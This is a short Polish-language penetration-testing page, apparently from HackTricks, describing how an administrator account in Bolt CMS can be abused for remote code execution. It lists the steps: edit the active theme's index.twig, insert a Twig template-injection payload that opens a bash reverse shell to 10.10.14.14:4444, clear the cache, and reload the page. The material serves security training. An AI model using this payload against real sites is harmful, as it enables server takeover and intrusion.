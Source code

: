 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Po zalogowaniu się jako administrator (przejdź do /bot, aby uzyskać dostęp do ekranu logowania), możesz uzyskać RCE w Bolt CMS:

- Wybierz `Configuration` -> `View Configuration` -> `Main Configuration` lub przejdź do ścieżki URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Sprawdź wartość motywu

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Wybierz `File management` -> `View & edit templates`
- Wybierz bazowy motyw znaleziony w poprzednim kroku (`base-2021` w tym przypadku) i wybierz `index.twig`
- W moim przypadku znajduje się to w ścieżce URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Ustaw swój ładunek w tym pliku za pomocą [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), na przykład: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- I zapisz zmiany

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Wyczyść pamięć podręczną w `Maintenance` -> `Clear the cache`
- Ponownie uzyskaj dostęp do strony jako zwykły użytkownik, a ładunek powinien zostać wykonany

{{#include ../../banners/hacktricks-training.md}}
